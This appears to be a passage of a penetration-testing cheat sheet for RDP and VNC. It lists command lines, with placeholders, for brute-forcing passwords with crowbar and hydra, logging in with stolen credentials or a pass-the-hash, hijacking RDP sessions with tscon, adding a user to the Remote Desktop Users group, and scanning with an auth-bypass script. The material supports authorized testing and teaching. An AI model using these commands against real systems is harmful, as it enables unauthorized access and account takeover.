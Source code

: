 ### Brute force

```
crowbar -b rdp -s <IP>/CIDR -u <USER> -C <PASSWORDS_LIST>
crowbar -b rdp -s <IP>/CIDR -U <USERS_LIST> -C <PASSWORDS_LIST>

hydra -f -L <USERS_LIST> -P <PASSWORDS_LIST> rdp://<IP> -u -vV
```

### Connect with known credentials / hash

```
rdesktop -u <USERNAME> <IP>
rdesktop -d <DOMAIN> -u <USERNAME> -p <PASSWORD> <IP>

xfreerdp /u:[DOMAIN\]<USERNAME> /p:<PASSWORD> /v:<IP>
xfreerdp /u:[DOMAIN\]<USERNAME> /pth:<HASH> /v:<IP>
```

### Session stealing

#### Get openned sessions

```
query user
```

#### Access to the selected 

```
tscon <ID> /dest:<SESSIONNAME>
```

### Adding user to RDP group (Windows) 

```
net localgroup "Remote Desktop Users" <USER> /add
```

------

## VNC - 5800 - 58001 - 5900 - 5901

### Scans

``` 
nmap -sV --script vnc-info,realvnc-auth-bypass,vnc-title -v -p <PORT> <IP>
```

### Brute force

```
hydra -L <USERS_LIST> –P <PASSWORDS_LIST> -s <PORT> <IP> vnc -u -vV
```
